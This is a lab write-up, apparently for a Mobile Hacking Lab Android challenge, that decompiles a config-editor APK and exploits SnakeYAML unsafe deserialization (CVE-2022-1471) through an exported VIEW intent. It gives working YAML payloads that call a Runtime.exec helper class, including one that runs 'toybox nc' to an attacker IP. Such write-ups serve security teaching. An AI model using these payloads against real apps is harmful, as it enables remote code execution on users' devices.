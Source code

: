 The Challenge: https://www.mobilehackinglab.com/course/lab-config-editor-rce

# Download the APK 
`$ adb connect 10.11.1.1:5001`
`$ adb shell pm list packages |grep config`
```
package:com.android.carrierconfig
package:com.android.emulator.radio.config
package:com.mobilehackinglab.configeditor
```
`$ adb shell pm path com.mobilehackinglab.configeditor`
`$ $ adb pull /data/app/~~7nJyEbpomszhvZKacYpBDQ==/com.mobilehackinglab.configeditor-Xlgn336TGw-b6-q5Xmjmyg==/base.apk`

# Static Analysis
## Decompile
`$ apktool d base.apk`
```
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
I: Using Apktool 2.7.0-dirty on base.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/kali/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Baksmaling classes2.dex...
I: Baksmaling classes4.dex...
I: Baksmaling classes3.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
I: Copying META-INF/services directory
```

**Looking for something that related to Yaml information**
`$ find . -name "*yaml*"`
```
./base/smali/org/yaml
./base/smali/org/yaml/snakeyaml
```

## OSINT
**SnakeYML Exploit, references:**
- https://snyk.io/blog/unsafe-deserialization-snakeyaml-java-cve-2022-1471/
- https://security.netapp.com/advisory/ntap-20230818-0015/
- https://github.com/google/security-research/security/advisories/GHSA-mjmj-j48q-9wg2
- https://github.com/1fabunicorn/SnakeYAML-CVE-2022-1471-POC
- https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471

## Code Analysis
**Interesting config of intent-filter in AndroidManifest.xml:**
```xml
        <activity android:name="com.mobilehackinglab.configeditor.MainActivity" android:exported="true">  
            <intent-filter>  
                <action android:name="android.intent.action.MAIN"/>  
                <category android:name="android.intent.category.LAUNCHER"/>  
            </intent-filter>  
            <intent-filter>  
                <action android:name="android.intent.action.VIEW"/>  
                <category android:name="android.intent.category.DEFAULT"/>  
                <category android:name="android.intent.category.BROWSABLE"/>  
                <data android:scheme="file"/>  
                <data android:scheme="http"/>  
                <data android:scheme="https"/>  
                <data android:mimeType="application/yaml"/>  
            </intent-filter>  
        </activity>
```

Try to direct call an intent
`$ adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d "http://google.com"`
```bash
Starting: Intent { act=android.intent.action.VIEW dat=http://google.com/... cmp=com.mobilehackinglab.configeditor/.MainActivity }
Error type 3
Error: Activity class {com.mobilehackinglab.configeditor/com.mobilehackinglab.configeditor.MainActivity} does not exist.
```

**Looking for the MainActivity, there's a method called as handleIntent()**
```kotlin
    private final void handleIntent() {  
        Intent intent = getIntent();  
        String action = intent.getAction();  
        Uri data = intent.getData();  
        if (Intrinsics.areEqual("android.intent.action.VIEW", action) && data != null) {  
            CopyUtil.Companion.copyFileFromUri(data).observe(this, new MainActivity$sam$androidx_lifecycle_Observer$0(new Function1<Uri, Unit>() { // from class: com.mobilehackinglab.configeditor.MainActivity$handleIntent$1  
                /* JADX INFO: Access modifiers changed from: package-private */  
                {  
                    super(1);  
                }  
  
                @Override // kotlin.jvm.functions.Function1  
                public /* bridge */ /* synthetic */ Unit invoke(Uri uri) {  
                    invoke2(uri);  
                    return Unit.INSTANCE;  
                }  
  
                /* renamed from: invoke  reason: avoid collision after fix types in other method */  
                public final void invoke2(Uri uri) {  
                    MainActivity mainActivity = MainActivity.this;  
                    Intrinsics.checkNotNull(uri);  
                    mainActivity.loadYaml(uri);  
                }  
            }));  
        }  
    }
```

From that script, we can said that "**the app tries to get any data from the link then call the method loadYaml()**".
```kotlin
    public final void loadYaml(Uri uri) {  
        try {  
            ParcelFileDescriptor openFileDescriptor = getContentResolver().openFileDescriptor(uri, "r");  
            ParcelFileDescriptor parcelFileDescriptor = openFileDescriptor;  
            FileInputStream inputStream = new FileInputStream(parcelFileDescriptor != null ? parcelFileDescriptor.getFileDescriptor() : null);  
            DumperOptions $this$loadYaml_u24lambda_u249_u24lambda_u248 = new DumperOptions();  
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setDefaultFlowStyle(DumperOptions.FlowStyle.BLOCK);  
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setIndent(2);  
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setPrettyFlow(true);  
            Yaml yaml = new Yaml($this$loadYaml_u24lambda_u249_u24lambda_u248);  
            Object deserializedData = yaml.load(inputStream);  
            String serializedData = yaml.dump(deserializedData);  
            ActivityMainBinding activityMainBinding = this.binding;  
            if (activityMainBinding == null) {  
                Intrinsics.throwUninitializedPropertyAccessException("binding");  
                activityMainBinding = null;  
            }  
            activityMainBinding.contentArea.setText(serializedData);  
            Unit unit = Unit.INSTANCE;  
            CloseableKt.closeFinally(openFileDescriptor, null);  
        } catch (Exception e) {  
            Log.e(TAG, "Error loading YAML: " + uri, e);  
        }  
    }
```

In the **loadYaml()** the method call **DumperOptions** which is it belong to **snakeyaml**.
```
import org.yaml.snakeyaml.DumperOptions;  
import org.yaml.snakeyaml.Yaml;
```

# Pre-Exploitation

	SnakeYAML allows users to create classes, pass constructor parameters and call setters from a provided YAML file.

In the apk itself, we also have the class LegacyCommandUtil
```kotlin
package com.mobilehackinglab.configeditor;  
  
import androidx.constraintlayout.widget.ConstraintLayout;  
import kotlin.Deprecated;  
import kotlin.DeprecationLevel;  
import kotlin.Metadata;  
import kotlin.jvm.internal.Intrinsics;  
  
/* compiled from: LegacyCommandUtil.kt */  
@Deprecated(level = DeprecationLevel.ERROR, message = "Command Util is unsafe and should not be used")  
@Metadata(d1 = {"\u0000\u0012\n\u0002\u0018\u0002\n\u0002\u0010\u0000\n\u0000\n\u0002\u0010\u000e\n\u0002\b\u0002\b\u0007\u0018\u00002\u00020\u0001B\r\u0012\u0006\u0010\u0002\u001a\u00020\u0003¢\u0006\u0002\u0010\u0004¨\u0006\u0005"}, d2 = {"Lcom/mobilehackinglab/configeditor/LegacyCommandUtil;", "", "command", "", "(Ljava/lang/String;)V", "app_debug"}, k = 1, mv = {1, 9, 0}, xi = ConstraintLayout.LayoutParams.Table.LAYOUT_CONSTRAINT_VERTICAL_CHAINSTYLE)  
/* loaded from: classes4.dex */  
public final class LegacyCommandUtil {  
    public LegacyCommandUtil(String command) {  
        Intrinsics.checkNotNullParameter(command, "command");  
        Runtime.getRuntime().exec(command);  
    }  
}
```

Then try to abuse the class LegacyCommandUtil to execute a system command through the yml file. Create poc.yml that contains text below:
```
cartcurt: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["touch /data/data/com.mobilehackinglab.configeditor/poc.txt"]
```

The result:
`$ adb root`
`$ adb shell "ls -al /data/data/com.mobilehackinglab.configeditor/"`
```
total 28
drwx------   5 u0_a111 u0_a111        4096 2024-03-23 17:07 .
drwxrwx--x 144 system  system        12288 2024-01-04 08:15 ..
drwxrws--x   2 u0_a111 u0_a111_cache  4096 2024-01-04 08:15 cache
drwxrws--x   2 u0_a111 u0_a111_cache  4096 2024-01-04 08:15 code_cache
drwxrwx--x   2 u0_a111 u0_a111        4096 2024-01-04 08:25 files
-rw-------   1 u0_a111 u0_a111           0 2024-03-23 17:07 poc.txt                                                        
```

## How to Get RCE?
Just dig something from internet and got this article: https://android.stackexchange.com/questions/133748/is-there-any-netcat-like-application-available-in-android-os-by-default-like-mo, and it said "In recent Androids (e.g. Nougat and later), you don't need to install busybox for running netcat; it is enough to get a terminal and then type: **toybox nc [options]**"


# Exploitation
Create rce.yml that contains text below:
```
exploit: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["toybox nc 10.11.3.2 9001"]
```
